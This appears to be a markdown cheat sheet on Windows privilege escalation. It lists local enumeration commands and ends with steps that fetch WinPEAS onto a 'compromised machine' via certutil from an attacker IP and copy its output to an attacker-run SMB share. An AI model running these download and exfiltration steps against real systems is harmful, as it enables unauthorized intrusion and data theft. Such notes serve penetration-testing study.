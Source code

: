 

```markdown
# Windows Privilege Escalation (PrivEsc)

---

## Enumeration

---

### Manual Enumeration

#### Basic User Information
```bash
whoami
net user            # List all available users
net user ravi        # Get detailed information about a specific user
net localgroup       # Check all local groups on this machine
net localgroup Users # Check members of the 'Users' group
net localgroup Administrators # Check members of the 'Administrators' group
```

---

### System Information
```bash
systeminfo                       # General system information
wmic qfe get Caption, Description, HotFixID, InstallDate   # Installed patches and updates
wmic os get *                     # Detailed OS version info
# Alternative:
wmic os get Caption, Name, BuildNumber
```

---

### Process and Services Enumeration
```bash
tasklist /v      # List processes with detailed info
tasklist /svc    # List processes mapped to services
```

---

### Network Information
```bash
ipconfig /all                       # Full network configuration
route print                         # Routing table
netstat -ano                        # Active connections with process IDs
netsh advfirewall show currentprofile  # Current firewall profile
# Check firewall rules (replace <rule-name> with actual rule):
netsh advfirewall firewall show rule name="<rule-name>"
```

---

### Scheduled Tasks Enumeration
```bash
schtasks /query /v /fo LIST      # List all scheduled tasks with details
powershell Get-ScheduledTask     # Using PowerShell to list scheduled tasks
```

---

### Installed Applications
```bash
wmic product get *       # Full list of installed products
wmic product get Caption, Description, InstallLocation, Name  # Filtered application information
```

---

### Permission Checks (Using Sysinternals AccessChk)
```bash
accesschk.exe -uws "Users" "C:\Program Files" --accepteula
```

# Windows Integrity Levels and Privilege Automation

---

## Windows Integrity Levels

### Check Integrity Level - Files and Binaries

```bash
icacls example.txt
icacls cmd.exe
```

---

### Check Integrity Level - Current User

```bash
whoami /groups
```

---

## Automation - Windows Privilege Enumeration (Awesome Script)

### Recommended Tool: WinPEAS

---

### Step 1 - Download WinPEAS to Compromised Machine

```bash
certutil -f urlcache http://10.10.x.x/winpease.exe
```

---

### Step 2 - Run WinPEAS and Save Output

```bash
winpease.exe > win.txt
```

---

### Step 3 - Set up SMB Share on Attacker Machine (Kali)

```bash
impacket-smbserver share .
```

---

### Step 4 - Exfiltrate Output to Attacker Machine via SMB

```bash
copy win.txt \\attacker_machine_ip\share\win.txt
```

---

